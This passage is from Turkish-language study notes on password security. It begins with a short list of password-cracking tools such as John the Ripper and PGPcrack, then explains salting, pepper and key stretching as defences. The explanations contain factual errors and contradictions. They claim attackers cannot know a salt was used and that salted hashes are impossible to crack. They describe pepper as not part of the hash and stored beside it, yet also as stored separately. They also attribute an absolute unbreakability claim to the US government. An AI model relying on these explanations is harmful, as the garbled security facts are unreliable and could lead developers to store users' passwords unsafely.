- John the Ripper – Aynı amaç için UNIX/Linux işletim sistemlerinde kullanılır. 
- PGPcrack - PGP şifreli sistemlerin peşinden gitmek için tasarlandı 
- CrypTool 
- Cryptobench 
- Jipher 
- Anahtarlar, "saldırılamayacak" olsalar bile düzenli olarak değiştirilmelidir. 
- ABD hükümetine göre, en az 256 bitlik bir anahtar kullanan bir algoritma kırılamaz. 

Saldırı Nasıl Yenilir ?  / How to Defeat Attack : 

- Salt the passwords (Şifreleri Tuzlama) - bir şifrenin hash değerini (şifrelenmiş hali) önceden tahmin edilemez hale getirmek için bir şifrenin önüne rastgele bir karakter dizisi olarak adlandırılan "tuz" ekleme işlemidir. Bu, önceden hesaplanmış hash tablosu veya diğer teknikler kullanarak bir şifreyi kırmayı zorlaştırmak için yapılır. Tuzun amacı, şifre hashleme işlemine ek bir güvenlik katmanı ekleyerek sonuçlanan hash değerini daha benzersiz ve tahmin edilemez hale getirmektir. Örneğin, iki kullanıcının aynı şifresi varsa, tuzlanmış şifrelerinin hash değerleri farklı olacaktır, çünkü her kullanıcının tuzu benzersizdir. Bu, bu şifrelerin hash değerlerine ulaşabilen bir saldırganın, orijinal şifreleri tahmin etmek için kullanamayacağı anlamına gelir, çünkü tuzun hash oluşturmak için kullanıldığını bilmeyecektir. Özetle, şifreleri tuzlama, hashleme işlemine ekstra bir rastgeleleştirme katmanı ekleyerek daha güvenli hale getirir ve saldırganların şifreleri tahmin etme veya önceden hesaplanmış hash tablosu kullanma gibi yöntemlerle kırmayı zorlaştırır. 
- Şifre veritabanının sızdırılması durumunda, veritabanında saklanan hash değerleri aracılığıyla kullanıcıların orijinal şifrelerini tahmin etmenin imkansız olduğunu açıklamaktadır. Bu, çünkü tuzlama işleminin uygulanması nedeniyle, aynı şifreye sahip kullanıcıların bile farklı hash değerleri saklanmaktadır. Bu durum, sızdırılmış veritabanındaki hash değerlerine bakılarak kullanıcıların şifrelerini tahmin etmeyi zorlaştırmaktadır. 
- Pepper (Biber) - ifrelenmiş şifreden ayrı olarak depolanan büyük bir sabit sayıdır. Pepper, bir şifre veritabanının sızdırılması durumunda, saldırganların hash değerlerine bakarak orijinal şifreleri tahmin etmeyi zorlaştırmak için kullanılır. Pepper, tuzlama işlemine benzer bir güvenlik önlemidir. Ancak, pepper farklı olarak, tuz gibi şifreleme işleminde kullanılmaz ve sadece şifrelenmiş şifrenin yanında depolanır. Bu, saldırganların şifre veritabanına erişim sağlaması durumunda bile, pepper'ın değerini bilmemesi nedeniyle, şifreleri tahmin etmeyi zorlaştırmaktadır. Pepper, tuzlama işlemine ekstra bir güvenlik katmanı ekler ve şifre veritabanı sızdırılırsa bile saldırganların şifreleri tahmin etmeyi zorlaştırır. Ancak, pepper'ın değerinin güvenli bir şekilde saklanması önemlidir, çünkü pepper değerine ulaşıldığında, saldırganlar şifreleri tahmin etmeyi daha da kolaylaştırabilir. 
- Key stretching(Anahtar Uzatma) - Çok uzun bir tuz ve çok sayıda hash döngüsünü birleştirme işlemidir. Bu işlem, bir şifreyi kırmayı daha da zorlaştırmak için kullanılır. Örneğin, hashlenmiş bir şifreyi N kere hashleme (iterasyon) işlemine tabi tutmak da key stretching olarak adlandırılabilir. Key stretching, şifrelerin güvenliğini artırmak için kullanılan bir taktiktir. Özellikle, tuzlama işlemine benzer bir şekilde, key stretching de şifreleri daha benzersiz ve tahmin edilemez hale getirmeyi amaçlar. Ancak, key stretching tuzlama işlemine göre daha ileri bir güvenlik önlemidir, çünkü tuzlama işleminden farklı olarak, çok sayıda hash döngüsü uygulanır. Bu, saldırganların şifreleri tahmin etmeyi daha da zorlaştırır, çünkü saldırganların hash değerlerini önceden hesaplayarak bir şifreyi kırmaya çalıştıklarında, çok sayıda hash döngüsünü aşmaları gerekecektir. Key stretching, şifrelerin güvenliğini artırmak için yararlı bir taktiktir, ancak bu taktik uygulandığında hashleme işlemi daha yavaş hale gelebilir. Bu nedenle, key stretching'in uygulanması ve hash döngüsü sayısının seçimi, uygulamanın gereksinimlerine göre ayarlanmalıdır. 

TEŞEKKÜR EDERİM 

